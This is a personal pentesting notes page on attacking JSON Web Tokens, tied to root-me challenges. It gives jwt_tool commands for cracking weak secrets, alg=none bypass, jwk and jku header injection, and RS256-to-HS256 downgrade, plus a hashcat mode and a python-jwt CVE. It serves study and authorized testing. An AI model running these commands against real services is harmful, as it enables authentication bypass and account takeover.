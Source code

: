 # JSON Web Token (JWT)

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

<div class="row row-cols-lg-2"><div>

JSON Web Token (JWT) are used to represent signed data. They are commonly used in for authentication and authorization.

The format is: `<algo>.<data>.<signature>`. Each part is base64 encoded, so the final string is URL-safe while it can be easily decoded.

The data is signed using a secret key. If the secret key is compromised, everyone can sign messages 🔏.

The signature is used to detect if data was tampered with.
</div><div>

They can be transferred and found in:

* 📚 Headers (`Authorization: Bearer <JWT>`)
* 🍪 Cookies
* 📄 URL Parameters
* 💼 Request Body
* ...

📚 A common handy wordlist is [jwt-secrets](https://github.com/wallarm/jwt-secrets).
</div></div>

<hr class="sep-both">

## Common JWT Attacks

[![hacking_jwt](../../../../_badges/hacktricks/hacking_jwt.svg)](https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens)

<div class="row row-cols-lg-2"><div>

You can use [jwt-tools](https://github.com/ticarpi/jwt_tool) <small>(4.8k ⭐)</small> to attack JWT:

```shell!
$ git clone https://github.com/ticarpi/jwt_tool.git $HOME/tools/jwt_tool
$ chmod +x $HOME/tools/jwt_tool/jwt_tool.py
$ ln -s $HOME/jwt_tool/jwt_tool.py $HOME/.local/bin/jwt_tool
$ jwt_tool -h
```

```ps
$ jwt_tool 'jwt'             # decode
$ jwt_tool 'jwt' -T          # encode
$ jwt_tool 'jwt' -I -pc claim -pv value
```

You can also use [jwt.io](https://jwt.io/).

#### Secret Key Brute Forcing

[![jwt_weak_secret](../../../../_badges/rootme/web_server/jwt_weak_secret.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Weak-secret)

The secret key may be weak and brute forced:

```ps
$ jwt_tool 'jwt' -T -p "key" # use secret key
$ jwt_tool 'jwt' -C -d /tmp/jwt.secrets.list # crack key
```

#### JWT Header Injection — None Algorithm

[![jwt_introduction](../../../../_badges/rootme/web_server/jwt_introduction.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Introduction)

We may be able to disable the tampering check by setting the signature algorithm to 'none.'

```ps
$ jwt_tool 'jwt' -T -X a     # attack 'algo=none'
```

📚 It also possible for the signature to not be checked at all by the server after issuing a JWT even if there is an algorithm.
</div><div>

#### JWT Header Injection — JWK

[![jwt_header_injection](../../../../_badges/rootme/web_server/jwt_header_injection.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Header-Injection)

JWT may use the `jwk` header to represent the RSA key used to sign the data. We may be able to inject our own RSA key.

```ps
$ jwt_tool 'jwt' -T -X i     # attack 'jwk header injection'
                             # -hc kid -hv jwt_tool
```

#### JWT Header Injection — JKU

[![jwt_unsecure_key_handling](../../../../_badges/rootme/web_server/jwt_unsecure_key_handling.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Unsecure-Key-Handling)

The `jku` header contains a URL or a filename used to fetch a key.

```shell!
$ cat $HOME/.jwt_tool/jwttool_custom_jwks.json # upload to URL as jwks.json
$ jwt_tool -X s -ju "URL/jwks.json" -I -hc kid -hv jwt_tool -pc claim -pv value
```

📚 You may check: `/jwks.json`, `/.well-known/jwks.json`, etc. Refer to [SSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/ssrf.md) for insight on URLs <small>(filtering, attacks, etc.)</small> and setting up a [grabber](/cybersecurity/red-team/_knowledge/topics/request_grabber.md).

#### JWT Header Injection — KID

The `kid` header may be added, such as the `jwk` object, to determine which key to use when there are multiple keys.

#### JWT Header Injection — HS256

[![jwt_public_key](../../../../_badges/rootme/web_server/jwt_public_key.svg)](https://www.root-me.org/en/Challenges/Web-Server/JWT-Public-key)

When using RS256 algorithm, JWT uses the private key to sign the JWK and the public key to verify integrity. We may be able to perform a downgrade attack to HS256 and only use a public key for both.

```ps
$ jwt_tool 'jwt' -S hs256 -k public.key -T
```

You can compute the public key if you have two messages:

```ps
$ docker run -it ttervoort/jws2pubkey "JWT1" "JWT2"
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [PortSwigger JWT](https://portswigger.net/web-security/jwt)
* `hashcat -a 0 -m 16500`
* Attach algo=none means signature is ignored.
* [JWT](https://jwt.io/), (Bearer, encrypted token), modern alternative to (apache) HTTP basic auth? (from=35). HTB/170. [RFC](https://tools.ietf.org/html/rfc7617).
* [CVE-2022-39227](https://github.com/user0x1337/CVE-2022-39227) for `python-jwt<3.3.4`: given a token, forge fake tokens
</div><div>
</div></div>